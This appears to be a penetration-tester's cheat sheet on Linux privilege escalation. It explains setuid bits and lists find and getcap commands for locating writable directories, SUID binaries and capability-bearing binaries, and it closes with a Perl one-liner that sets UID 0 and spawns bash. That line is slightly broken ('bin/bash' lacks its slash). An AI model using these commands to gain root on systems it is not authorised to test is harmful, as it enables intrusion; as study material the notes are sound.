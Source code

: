 # Permissions

## File Permissions
```
# search for every directory writable by the current user
find / -writable -type d 2>/dev/null
```


### setuid and setgid

If these two rights are set, either an uppercase or lowercase "s" will appear in the permissions. This allows the current user to execute the file with the rights of the owner (setuid) or the owner's group (setgid).

When running an executable, it normally inherits the permissions of the user that runs it. However, if the SUID permissions are set, the binary will run with the permissions of the file owner. This means that if a binary has the SUID bit set and the file is owned by root, any local user will be able to execute that binary with elevated privileges.

When a user or a system-automated script launches a SUID application, it inherits the UID/GID of its initiating script: this is known as effective UID/GID (eUID, eGID), which is the actual user that the OS verifies to grant permissions for a given action.

Any user who manages to subvert a setuid root program to call a command of their choice can effectively impersonate the root user and gains all rights on the system. Penetration testers regularly search for these types of files when they gain access to a system as a way of escalating their privileges.

We can use `find` to search for SUID-marked binaries. In this case, we are starting our search at the root directory (/), searching for files (-type f) with the SUID bit set, (-perm -u=s) and discarding all error messages (2>/dev/null):

```
find / -perm -u=s -type f 2>/dev/null
```


If you discover an unusual SUID binary, you can try running the `strings` command on it to extract any readable text or strings.





### Linux Capabilities

Enumerate our target system for binaries with capabilities
```
/usr/sbin/getcap -r / 2>/dev/null
```



exploit perl capabilities
```
echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "bin/bash";'
```

